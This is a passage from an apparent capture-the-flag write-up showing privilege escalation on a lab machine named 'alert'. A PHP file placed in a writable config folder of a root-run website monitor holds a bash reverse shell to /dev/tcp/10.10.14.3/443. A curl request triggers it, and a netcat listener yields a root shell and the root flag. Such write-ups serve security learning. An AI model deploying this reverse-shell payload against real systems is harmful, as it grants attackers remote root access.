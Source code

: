 >   
>   <h1>Website Monitor</h1>
>   ...
>   ```

To craft our exploit, we just have to create a malicious `php` file in the config folder and get a reverse shell.

```bash
albert@alert:/opt/website-monitor/config$ ls -la
total 16
drwxrwxr-x 2 root   management 4096 Jan  2 06:50 .
drwxrwxr-x 7 root   root       4096 Oct 12 01:07 ..
-rwxrwxr-x 1 root   management   49 Jan  2 06:52 configuration.php

albert@alert:/opt/website-monitor/config$ cat configuration.php 
<?php
define('PATH', '/opt/website-monitor');
?>

albert@alert:/opt/website-monitor/config$ vi exploit.php 

albert@alert:/opt/website-monitor/config$ cat exploit.php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.3/443 0>&1'"); ?>

albert@alert:/opt/website-monitor/config$ curl http://127.0.0.1:8080/config/exploit.php
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.44] 44626
whoami
root
cat /root/root.txt
e2ceed42be65d5f3f88b6b090dd051a2
```



